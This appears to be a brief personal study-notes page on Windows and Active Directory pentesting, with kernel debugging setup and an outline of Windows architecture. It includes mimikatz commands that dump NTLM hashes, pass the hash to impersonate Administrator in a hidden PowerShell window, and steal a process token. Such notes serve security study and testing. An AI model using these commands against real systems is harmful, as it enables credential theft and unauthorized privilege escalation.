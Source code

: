 # Windows Host security features
# Security in AD network
# Active Directory and Windows Pentesting
### User impersonation
- **PassTheHash** - Dump NTLM hashes ```lsadump::sam```, now Impersonate a user ```mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell -w hidden”```, now migrate to the new created process as the impersonated user ```steal_token 1234```
# Debugging Kernel
Steps
* Enable kernal debugging and get key - ```bcdedit debug on``` ```bcdedit net hostip:192.168.0.101 port:55xxx``` ```bcdedit /dbgsetting net hostip:192.168.0.101 port:55xxx```
* Now open windbg -> Attach kernel -> enter port and the key from above command
* kd>.reload /f - Command to reload symbols

### Windows Operating System Architecture
- https://i.ytimg.com/vi/PuDlDtqfXtk/maxresdefault.jpg
- User mode
    - kernel32.dll, USER32.dll, advapi32.dll, ntdll.dll
- Kernel mode
    -  ntoskrnl.exe, hal.dll, win32k.sys 
1. Inturrupts
- Trap - Interrupts
